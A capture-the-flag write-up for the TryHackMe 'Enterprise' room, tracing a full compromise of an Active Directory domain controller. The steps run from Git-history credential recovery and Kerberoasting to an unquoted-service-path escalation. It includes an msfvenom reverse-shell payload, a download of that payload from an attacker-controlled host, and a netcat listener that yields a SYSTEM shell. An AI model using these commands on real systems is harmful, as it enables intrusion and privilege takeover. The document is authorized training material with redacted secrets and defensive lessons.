# Enterprise - TryHackMe Writeup

**Platform:** [TryHackMe - Enterprise](https://tryhackme.com/room/enterprise)

**Target:** Windows Active Directory Domain Controller

**Difficulty:** Not listed on the public room page

> This writeup documents an authorized TryHackMe lab. Target and AttackBox addresses are ephemeral, so the commands use `<TARGET_IP>` and `<ATTACKER_IP>`. Lab passwords, Kerberos material, and both flags are redacted from the public screenshots.

---

## 1. Recon

I started with a full TCP scan and saved all output formats for later review:

```bash
mkdir -p scans
nmap -Pn -p- --min-rate 1000 -oA scans/full-tcp <TARGET_IP>
```

The scan exposed the typical surface of an Active Directory Domain Controller, plus several web and management services:

- DNS on 53
- IIS on 80
- Kerberos on 88 and 464
- MSRPC and NetBIOS on 135, 139, and 593
- LDAP/LDAPS and Global Catalog on 389, 636, 3268, and 3269
- SMB on 445
- RDP on 3389
- WinRM/WSMan on 5985 and 47001
- Atlassian web application on 7990
- Active Directory Web Services on 9389


*The full TCP scan reveals the broad Active Directory and Windows management attack surface.*

I then ran default scripts and version detection against the identified services:

```bash
nmap -Pn -sC -sV -p 53,80,88,135,139,389,445,464,593,636,3268,3269,3389,5985,7990,9389,47001 -oA scans/services <TARGET_IP>
```

Nmap identified the host as `LAB-DC`, the realm as `LAB.ENTERPRISE.THM`, Microsoft IIS 10.0, LDAP, Kerberos, SMB, RDP, WinRM, and an Atlassian login on port 7990.


*Service detection identifies the Windows domain, host name, LDAP, Kerberos, SMB, IIS, and RDP services.*


*The second part of the service scan identifies the Atlassian login on port 7990 and the host name LAB-DC.*

---

## 2. Name Resolution and Web Enumeration

The discovered names were added to `/etc/hosts` so Kerberos, SMB, and the web application could be addressed consistently:

```bash
echo '<TARGET_IP> lab.enterprise.thm lab-dc.lab.enterprise.thm lab-dc' | sudo tee -a /etc/hosts
```

Browsing the Atlassian application on port 7990 revealed the message **“We are moving to Github!”**. Following that lead reached the GitHub organization `Enterprise-THM`, the user `Nik-enterprise-dev`, and the history of a PowerShell management script.

An older commit had removed hard-coded credentials for the domain user `nik`. The recovered password is deliberately redacted here and represented as `<NIK_PASSWORD>` throughout this public writeup.


*An older commit of the PowerShell management script exposed the nik lab credential; the password is redacted in this public copy.*

No standalone screenshots were captured for the `/etc/hosts` change, the Atlassian message, or the intermediate GitHub organization/user navigation. The historic commit itself is documented above.

---

## 3. SMB Enumeration

The recovered `nik` credential authenticated successfully to SMB:

```bash
smbclient -L //lab.enterprise.thm -U 'LAB.ENTERPRISE.THM/nik%<NIK_PASSWORD>'
smbclient //lab.enterprise.thm/Docs -U 'LAB.ENTERPRISE.THM/nik%<NIK_PASSWORD>' -c 'ls'
```

Available shares:

- `ADMIN$`
- `C$`
- `Docs`
- `IPC$`
- `NETLOGON`
- `SYSVOL`
- `Users`

The `Docs` share contained two protected Office documents:

- `RSA-Secured-Credentials.xlsx`
- `RSA-Secured-Document-PII.docx`

They were a secondary lead and were not required for the successful attack path.


*Authenticated SMB enumeration lists the shares and both protected Office files; the password is redacted.*

---

## 4. Kerberoasting

With a valid domain account, I requested service tickets for accounts with a Service Principal Name:

```bash
GetUserSPNs.py 'lab.enterprise.thm/nik:<NIK_PASSWORD>' -dc-ip <TARGET_IP> -request -outputfile kerberoast.hashes
```

This found one relevant SPN:

```text
HTTP/LAB-DC  ->  bitbucket
```

The returned TGS-REP hash was attacked with the `rockyou.txt` wordlist:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt kerberoast.hashes
john --show kerberoast.hashes
```

John recovered the synthetic lab password for `bitbucket`. It is represented as `<BITBUCKET_PASSWORD>` below and is redacted from the screenshot together with the reusable Kerberos material.


*GetUserSPNs identifies HTTP/LAB-DC for bitbucket, and John cracks the ticket; credential material is redacted.*

---

## 5. RDP and User Flag

The cracked service-account credential provided an interactive RDP session:

```bash
xfreerdp /v:<TARGET_IP> /u:bitbucket /p:<BITBUCKET_PASSWORD> /d:LAB.ENTERPRISE.THM /cert:ignore
```


*The FreeRDP session was launched as bitbucket; the password is redacted.*

The user flag was present on the `bitbucket` desktop. Its value is intentionally not reproduced.


*The user flag was recovered from the bitbucket desktop and redacted for publication.*

---

## 6. Privilege Escalation Enumeration

Service enumeration highlighted `zerotieroneservice`. Querying its configuration showed three important properties:

```powershell
sc.exe qc zerotieroneservice
```

- Auto-start service
- Runs as `LocalSystem`
- Unquoted binary path: `C:\Program Files (x86)\Zero Tier\Zero Tier One\ZeroTier One.exe`


*The service runs as LocalSystem and uses an unquoted executable path containing spaces.*

The existing executable itself was not writable by a standard user:

```powershell
icacls "C:\Program Files (x86)\Zero Tier\Zero Tier One\ZeroTier One.exe"
```

`BUILTIN\Users` had only inherited read and execute rights on `ZeroTier One.exe`.


*The original service executable is protected from direct replacement.*

The installation directory had weaker permissions:

```powershell
(Get-Acl "C:\Program Files (x86)\Zero Tier\Zero Tier One").Access | Format-Table IdentityReference,FileSystemRights,AccessControlType,IsInherited -AutoSize
```

`BUILTIN\Users` had `Write, Synchronize` on the directory. Because the service path was unquoted, Windows would test truncated executable candidates before the intended `ZeroTier One.exe`. One candidate was:

```text
C:\Program Files (x86)\Zero Tier\Zero Tier One\ZeroTier.exe
```


*The installation folder is writable by BUILTIN\Users, enabling placement of the truncated ZeroTier.exe candidate.*

---

## 7. Payload Delivery

On the AttackBox, I generated a 64-bit reverse shell executable. The resulting file was 7,680 bytes:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=4444 -f exe -o ZeroTier.exe
```


*msfvenom creates the 7,680-byte ZeroTier.exe reverse-shell payload.*

The payload was served over HTTP:

```bash
python3 -m http.server 8000
```

On the target, it was downloaded into the writable installation directory using the truncated executable name:

```powershell
Invoke-WebRequest -Uri "http://<ATTACKER_IP>:8000/ZeroTier.exe" -OutFile "C:\Program Files (x86)\Zero Tier\Zero Tier One\ZeroTier.exe"
Get-Item "C:\Program Files (x86)\Zero Tier\Zero Tier One\ZeroTier.exe" | Select-Object FullName,Length
```


*The AttackBox HTTP server returns the payload to the target with status 200.*

---

## 8. SYSTEM Shell and Root Flag

I started the listener before triggering the service:

```bash
nc -lvnp 4444
```

The service was then started from the RDP session:

```powershell
sc.exe start zerotieroneservice
```


*The payload is present at the expected path and the service start is triggered. Error 1053 appears because the reverse-shell executable does not behave like a Windows service, but execution already occurred.*

The listener received the callback. `whoami` confirmed `nt authority\system`, after which the root flag was read from the Administrator desktop:

```cmd
whoami
type C:\Users\Administrator\Desktop\root.txt
```


*The callback runs as NT AUTHORITY\SYSTEM. The root flag is redacted from the public image.*

---

## Evidence Notes

- All public flag, password, and Kerberos material is redacted.
- No standalone screenshot exists for the `/etc/hosts` modification.
- No standalone screenshot exists for the Atlassian **“We are moving to Github!”** hint.
- No standalone screenshot exists for the intermediate GitHub organization and user navigation.
- The protected Office files were enumerated but were not part of the successful path.
- A truncated service-list screenshot and duplicate ACL captures were omitted because clearer evidence was available.

---

## Lessons Learned

- Full-port scanning matters: the Atlassian application on 7990 was the pivot into source-code history.
- Deleted secrets remain recoverable from Git history; credentials must be rotated, not merely removed from the latest revision.
- One valid domain account can expose additional service accounts through Kerberoasting.
- A protected service binary is not enough when its parent directory is writable.
- Unquoted service paths become critical when an attacker can create one of the executable candidates and the service runs as LocalSystem.
- A service-control timeout does not prove exploitation failed; always check the listener and resulting process context.
